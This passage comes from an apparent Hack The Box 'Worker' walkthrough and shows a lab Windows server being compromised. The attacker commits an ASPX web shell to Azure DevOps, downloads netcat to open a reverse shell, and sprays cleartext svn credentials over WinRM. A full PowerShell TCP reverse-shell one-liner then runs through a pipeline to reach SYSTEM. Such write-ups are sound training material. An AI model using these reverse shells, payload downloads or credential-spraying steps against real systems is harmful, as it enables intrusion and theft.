    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [HTB/worker/spectral]
    → git add .
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [HTB/worker/spectral]
    → git commit -m 'shell.aspx'
    [nihilist 7d2a3e0] shell.aspx
     1 file changed, 423 insertions(+)
     create mode 100644 shell.aspx
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [HTB/worker/spectral]
    → git push --set-upstream origin nihilist
    Username for 'http://devops.worker.htb': nathen
    Password for 'http://nathen@devops.worker.htb':
    Enumerating objects: 7, done.
    Counting objects: 100% (7/7), done.
    Delta compression using up to 4 threads
    Compressing objects: 100% (6/6), done.
    Writing objects: 100% (6/6), 4.68 KiB | 2.34 MiB/s, done.
    Total 6 (delta 2), reused 0 (delta 0), pack-reused 0
    remote: Analyzing objects... (6/6) (3 ms)
    remote: Storing packfile... done (17 ms)
    remote: Storing index... done (30 ms)
    To http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral
     * [new branch]      nihilist -> nihilist
    Branch 'nihilist' set up to track remote branch 'nihilist' from 'origin'.
    

merge the branches from devops.worker.htb as usual and use the netcat listener on port 9002, and apparently you can't even run that shell.aspx file, so instead we're going to use the netcat binary, we're going to drop it into **C:\temp** which is a directory we create from **cmd.aspx** :


    
    
    [ 10.10.14.11/23 ] [ /dev/pts/34 ] [HTB/worker/spectral]
    → cp /home/nothing/HTB/json/nihilist/nc.exe .
    
    [ 10.10.14.11/23 ] [ /dev/pts/34 ] [HTB/worker/spectral]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [from cmd.aspx]
    **powershell -c iwr -Uri http://10.10.14.11:9090/nc.exe -O C:\temp\nc.exe**
    
    

` 

And then simply use the netcat binary directly **C:\temp\nc.exe 10.10.14.11 9002 -e powershell.exe**
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/29 ] [HTB/worker/spectral]
    → rlwrap nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.203] 51608
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    whoami
    whoami
    iis apppool\defaultapppool
    PS C:\windows\system32\inetsrv>
    
    

And we get a reverse shell! Now a while back we saw that there was a **W:\** drive so let's explore it:
    
    
    cd W:\
    cd W:\
    dir
    dir
    
    
        Directory: W:\
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       2020-06-16     18:59                agents
    d-----       2020-03-28     14:57                AzureDevOpsData
    d-----       2020-04-03     11:31                sites
    d-----       2020-06-20     16:04                svnrepos
    
    
    cd svnrepos\www\conf
    
        Directory: W:\svnrepos\www\conf
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       2020-06-20     11:29           1112 authz
    -a----       2020-06-20     11:29            904 hooks-env.tmpl
    -a----       2020-06-20     15:27           1031 passwd
    -a----       2020-04-04     20:51           4454 svnserve.conf
    
    
    PS W:\svnrepos\www\conf> type passwd
    

And from this file we get alot of credentials in cleartext so we can make a wordlist of users and passwords to try with crackmapexec:
    
    
    type passwd
    ### This file is an example password file for svnserve.
    ### Its format is similar to that of svnserve.conf. As shown in the
    ### example below it contains one section labelled [users].
    ### The name and password for each user follow, one account per line.
    
    [users]
    nathen = wendel98
    nichin = fqerfqerf
    nichin = asifhiefh
    noahip = player
    nuahip = wkjdnw
    [...]
    
    [ 10.10.14.11/23 ] [ /dev/pts/33 ] [~/HTB/worker]
    → cat creds.txt
    nathen:wendel98
    nichin:fqerfqerf
    nichin:asifhiefh
    noahip:player
    nuahip:wkjdnw
    oakhol:bxwdjhcue
    owehol:supersecret
    paihol:painfulcode
    [...]
    
    [ 10.10.14.11/23 ] [ /dev/pts/33 ] [~/HTB/worker]
    → awk -F: '{print $1}' creds.txt > users.txt
    
    [ 10.10.14.11/23 ] [ /dev/pts/33 ] [~/HTB/worker]
    → awk -F: '{print $2}' creds.txt > passwords.txt
    
    

And we can just bruteforce the which of these credentials are valid for the winrm service using crackmapexec:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/33 ] [~/HTB/worker]
    → crackmapexec winrm 10.10.10.203 -u users.txt -p passwords.txt --no-bruteforce --continue-on-success
    WINRM       10.10.10.203    5985   NONE             [*] None (name:10.10.10.203) (domain:None)
    WINRM       10.10.10.203    5985   NONE             [*] http://10.10.10.203:5985/wsman
    WINRM       10.10.10.203    5985   NONE             [-] None\nathen:wendel98
    WINRM       10.10.10.203    5985   NONE             [-] None\nichin:fqerfqerf
    WINRM       10.10.10.203    5985   NONE             [-] None\nichin:asifhiefh
    WINRM       10.10.10.203    5985   NONE             [-] None\noahip:player
    WINRM       10.10.10.203    5985   NONE             [-] None\nuahip:wkjdnw
    WINRM       10.10.10.203    5985   NONE             [-] None\oakhol:bxwdjhcue
    WINRM       10.10.10.203    5985   NONE             [-] None\owehol:supersecret
    WINRM       10.10.10.203    5985   NONE             [-] None\paihol:painfulcode
    WINRM       10.10.10.203    5985   NONE             [-] None\parhol:gitcommit
    WINRM       10.10.10.203    5985   NONE             [-] None\pathop:iliketomoveit
    WINRM       10.10.10.203    5985   NONE             [-] None\pauhor:nowayjose
    WINRM       10.10.10.203    5985   NONE             [-] None\payhos:icanjive
    WINRM       10.10.10.203    5985   NONE             [-] None\perhou:elvisisalive
    WINRM       10.10.10.203    5985   NONE             [-] None\peyhou:ineedvacation
    WINRM       10.10.10.203    5985   NONE             [-] None\phihou:pokemon
    WINRM       10.10.10.203    5985   NONE             [-] None\quehub:pickme
    WINRM       10.10.10.203    5985   NONE             [-] None\quihud:kindasecure
    WINRM       10.10.10.203    5985   NONE             [-] None\rachul:guesswho
    WINRM       10.10.10.203    5985   NONE             [-] None\raehun:idontknow
    WINRM       10.10.10.203    5985   NONE             [-] None\ramhun:thisis
    WINRM       10.10.10.203    5985   NONE             [-] None\ranhut:getting
    WINRM       10.10.10.203    5985   NONE             [-] None\rebhyd:rediculous
    WINRM       10.10.10.203    5985   NONE             [-] None\reeinc:iagree
    WINRM       10.10.10.203    5985   NONE             [-] None\reeing:tosomepoint
    WINRM       10.10.10.203    5985   NONE             [-] None\reiing:isthisenough
    WINRM       10.10.10.203    5985   NONE             [-] None\renipr:dummy
    WINRM       10.10.10.203    5985   NONE             [-] None\rhiire:users
    WINRM       10.10.10.203    5985   NONE             [-] None\riairv:canyou
    WINRM       10.10.10.203    5985   NONE             [-] None\ricisa:seewhich
    WINRM       10.10.10.203    5985   NONE             [-] None\robish:onesare
    **WINRM       10.10.10.203    5985   NONE             [+] None\robisl:wolves11 (Pwn3d!)**
    WINRM       10.10.10.203    5985   NONE             [-] None\robive:andwhich
    WINRM       10.10.10.203    5985   NONE             [-] None\ronkay:onesare
    WINRM       10.10.10.203    5985   NONE             [-] None\rubkei:the
    WINRM       10.10.10.203    5985   NONE             [-] None\rupkel:sheeps
    WINRM       10.10.10.203    5985   NONE             [-] None\ryakel:imtired
    WINRM       10.10.10.203    5985   NONE             [-] None\sabken:drjones
    WINRM       10.10.10.203    5985   NONE             [-] None\samken:aqua
    WINRM       10.10.10.203    5985   NONE             [-] None\sapket:hamburger
    WINRM       10.10.10.203    5985   NONE             [-] None\sarkil:friday
    
    

And we get valid credentials for the robisl user! so let's spawn an evil-winrm session:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [HTB/worker/spectral]
    → evil-winrm -i worker.htb -u robisl -p wolves11
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\robisl\Documents> whoami
    worker\robisl
    
    

So now from here we can get the user flag:
    
    
    *Evil-WinRM* PS C:\Users\robisl\Documents> cd ../Desktop
    *Evil-WinRM* PS C:\Users\robisl\Desktop> type user.txt
    51XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

## **Part 3 : Getting Root Access**

Now in order to continue we need to login as the robisl user onto the Azure DevOps git page (make sure to go to http://devops.worker.htb/, the ROOT of the subbdomain, and not the other repository we were on previously):



And then we see that we have access to a new repository called **PartsUnlimited** :

So the difference here is that first of all there are no pipelines:

However the robisl user is able to create a new pipeline, and therefore we should be able to use this new pipeline to execute a reverse shell as nt authority/system, so let's create that pipeline:

    
    
    
    [terminal 1]
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → cat Invoke-PowerShellTcpOneLine.ps1
    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.11",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → mv Invoke-PowerShellTcpOneLine.ps1 shell.ps1
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/worker]
    → python3 -m http.server 9090
    
    [terminal 2]
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [~/HTB/worker]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    
    [terminal 3]
    *Evil-WinRM* PS C:\Users\robisl\Desktop> cd C:\temp
    *Evil-WinRM* PS C:\temp> dir
    
    
        Directory: C:\temp
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        6/27/2021   4:25 PM          59392 nc.exe
    
    
    *Evil-WinRM* PS C:\temp> iwr -uri http://10.10.14.11:9090/shell.ps1 -O shell.ps1
    *Evil-WinRM* PS C:\temp> type shell.ps1
    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.11",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    

Now that the powershell script is in place as well as the reverse shell netcat listener on port 9001, let's run it:

Click save and queue:

  

And now we know that our script has been successfully executed:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/3 ] [~/HTB/worker]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.203] 51960
    
    PS W:\agents\agent11\_work\9\s> whoami
    nt authority\system
    

And we got a reverse shell connection as nt authority\system! Now let's get the root flag (also do it quickly because the reverse shell dies after 1 minute):
    
    
    PS W:\agents\agent11\_work\9\s> cd C:\users\administrator\desktop
    PS C:\users\administrator\desktop> type root.txt
    43XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

## **Conclusion**

Here we can see the progress graph :



